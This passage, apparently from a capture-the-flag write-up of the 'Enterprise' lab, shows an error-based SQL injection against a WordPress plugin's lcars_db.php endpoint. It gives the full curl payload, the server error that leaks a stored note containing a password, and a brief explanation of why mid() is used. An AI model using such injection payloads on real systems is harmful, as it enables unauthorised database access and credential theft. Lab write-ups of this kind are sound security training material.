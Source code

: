 
I can pull content as well:

    
    
    oxdf@parrot$ curl -s 'http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1%20AND%20(select%201%20from%20(select%20COUNT(*),concat((select%20mid(post_content,1,64)%20from%20wp_posts%20where%20id%20=%2068),%200x3078646666647830,%20floor(rand()*2))%20as%20a%20from%20information_schema.columns%20group%20by%20a)%20as%20x)'
    <br />
    <b>Warning</b>:  mysqli::query(): (23000/1062): Duplicate entry 'Needed somewhere to put some passwords quickly
    
    ZxJyhGem4k338S' for key '&lt;group_key&gt;' in <b>/var/www/html/wp-content/plugins/lcars/lcars_db.php</b> on line <b>15</b><br />
    

I need the `mid` on the results because if too much data comes back, it
handles that as multiple lines, and breaks the error message.

[](/2021/06/16/htb-enterprise.html)

